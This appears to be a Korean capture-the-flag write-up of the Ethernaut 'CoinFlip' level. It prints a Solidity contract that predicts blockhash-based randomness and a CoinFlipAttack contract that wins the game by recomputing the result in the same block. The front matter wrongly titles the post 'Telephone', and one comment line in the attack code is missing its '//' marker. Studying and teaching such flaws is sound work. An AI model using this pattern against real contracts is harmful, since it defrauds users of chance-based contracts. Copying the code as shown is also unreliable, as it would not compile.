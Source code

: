 ```yaml
---
emoji: 🧢
title: (Ethernaut 취약점 4) Telephone  
date: '2022-01-07 20:26:00'
author: 한성원
tags: ethernaut Telephone vulnerability
categories: 취약점분석
---
```



# 👋 1. CoinFlip
__Difficulty 3/10__

- 승리 조건
- 코드 분석
- 풀이
순서로 진행 될 것이다.

- - -

## 승리 조건
- 동전 뒤집기 게임에서 10번 연속 예측 성공하기

- - -

## 코드 분석
분석은 주석에!

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import '@openzeppelin/contracts/math/SafeMath.sol';

contract CoinFlip {

  using SafeMath for uint256;
  // 연속 win의 수
  uint256 public consecutiveWins;
  // 이전 flip()에 사용됐던 hash 값 
  uint256 lastHash;
  // 난수 생성을 위한 값
  uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;
  
  //constructor: consecutiveWins 초기 값을 0으로 setting
  constructor() public {
    consecutiveWins = 0;
  }

  //동전 뒤집기 예측을 위한 function
  //return boolean
  function flip(bool _guess) public returns (bool) {
    // blockValue에 last blockhash를 uint256으로 casting해 저장한다
    uint256 blockValue = uint256(blockhash(block.number.sub(1)));

    //만약 이전 게임에서 사용했던 hash라면 답이 같을 수 있음으로 revert한다
    if (lastHash == blockValue) {
      revert();
    }
    
    // 이번 게임에서 사용 될 hash를 저장
    lastHash = blockValue;
    //blockValue를 FACTOR로 나눈 값을 coinFilip에 저장한다.
    uint256 coinFlip = blockValue.div(FACTOR);
    // coinFlip의 숫자와 1이 같으면 side에 true, 다르면 false를 저장한다.
    bool side = coinFlip == 1 ? true : false;

    // 만약 side와 _guess가 같다면 실행, 즉 user의 예측이 맞았다면 실행
    if (side == _guess) {
      // 연속 win의 수에 1을 더한다
      consecutiveWins++;
      return true;
    } 
    // 만약 side와 _guess가 다르다면 실행, 즉 user의 예측이 틀렸다면 실행
    else {
      // 연속 win의 수를 초기화 시킨다.
      consecutiveWins = 0;
      return false;
    }
  }
}
```
- - -

### 풀이를 위한 Setup
[RemixIDE](https://remix.ethereum.org)를 사용한다. 
remix 사용법은 YouTube와 google에 많이 나와있으니 최신것으로 찾아보자!
그리고 docs를 읽어본다면 사용법을 쉽게 익힐 수 있을 것이다.

한 가지 주의할 점은 CoinFlip은 remix에서 바로 deploy하는 것이 아니라 ethernauts에서 만든 instance의 주소를 가지고 addressAt을 누르면 된다.
또한 우리는 Rinkeby Network를 사용하고 있으니 ENVIRONMENT를 "Injected Web3"를 선택해주어야 한다.


## 풀이
이 문제는 random으로 생성되는 값을 연속해서 맞추는 것이다.
그리고 이 문제에서 주목해야 할 점은 randomness이다.

solidity를 사용하여 randomness를 생성하는 것은 매우 까다롭고 대부분의 방법은 hacking 당하기 쉽다. 그래서 randomness를 생성하는 곳을 파고들어야 한다.

이 CoinFlip contract에서는 미리 정해진 FACTOR과 이전 block의 hash를 사용하여 randomness를 생성한다.

blockhash의 특징은 무엇일까? 우선 blockhash는 트랜잭션이 추가된 block의 hash 값이다. 즉 같은 block에 있는 transaction은 같은 blockhash를 가진다.

그렇다면 우리가 같은 block에 transaction을 보낸다면 해킹이 가능 할 것이다!

나는 그래서 CoinFlipAttack contract를 새로 만들었다. 

주석을 통해 CoinFlipAttack contract를 같이 분석 해보자!
```solidity
//아마 위해서 본 CoinFlip contract와 매우 비슷할 것이다.
contract CoinFlipAttack {

  using SafeMath for uint256;
  uint256 public consecutiveWins;
  uint256 public lastHash;
  // CoinFlip.flip()의 결과를 예측하기 위해 같은 FACTOR를 쓴다.
  uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;
  //CoinFlip contract의 address
  address coinFlipAddress;

  //contructor: 배포시 CoinFlip의 address를 포함해 배포한다.
  constructor(address _coinFlipAddress) public {
    consecutiveWins = 0;
    //coinFlipAddress를 CoinFlip의 address로 설정한다.
    coinFlipAddress = _coinFlipAddress;
  }

  function flip() public {
    //CounFlip contract와 똑같이 blockValue를 생성한다.
    uint256 blockValue = uint256(blockhash(block.number.sub(1)));

    if (lastHash == blockValue) {
      revert();
    }

    lastHash = blockValue;
    //CounFlip contract와 똑같이 conFlip 값을 생성한다.
    uint256 coinFlip = blockValue.div(FACTOR);
    bool side = coinFlip == 1 ? true : false;
    이미 맞춘 값을 CoinFlip.flip에 보내 해킹한다.
    CoinFlip(coinFlipAddress).flip(side);

  }
}

```

즉 CoinFlipAttack.flip()을 다른 블록에 10번 call하면 해킹에 성공하게 된다.


완료 후 Submit instance를 누르고 조금 기다리면 block이 mine되고,
```
٩(- ̮̮̃-̃)۶ Well done, You have completed this level!!!
```

- - -
## 마무리
solidity에서 randomness를 생성하는 것은 까다롭다. block.timestamp, block.hash등을 사용할 수 있지만 이는 모두 예측이 가능하다. 그래서 contract에서 randomness를 생성하는 것이 아니라 외부에 가져오는 것이 좋다. Openzeppline에서는 Chainlink VRF, RANDAO, Oraclize를 사용하는 것을 권장하고 있다. 앞으로 randomness를 만들때 조심하자! 

- - -
## 기타 정보
- rinkeyb network ether faucet: https://faucets.chain.link/rinkeby
- ethernaut: https://ethernaut.openzeppelin.com/
- remix IDE: https://remix.ethereum.org
```toc

```
